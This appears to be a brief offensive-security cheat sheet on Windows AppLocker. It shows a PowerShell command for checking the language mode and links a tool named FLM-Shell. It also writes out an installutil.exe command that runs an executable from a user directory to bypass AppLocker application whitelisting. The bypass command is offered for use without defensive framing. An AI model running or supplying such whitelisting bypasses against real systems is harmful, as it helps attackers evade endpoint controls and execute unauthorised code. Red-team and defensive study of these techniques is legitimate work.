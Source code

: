 # Applocker
## Check Powershell Language Mode
```powershell
$ExecutionContext.SessionState.LanguageMode
```
## Bypass Applocker
[FLM-Shell](https://github.com/an3m0ne/FLM-Shell)
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\an3m0ne\FLM-Shell.exe
```
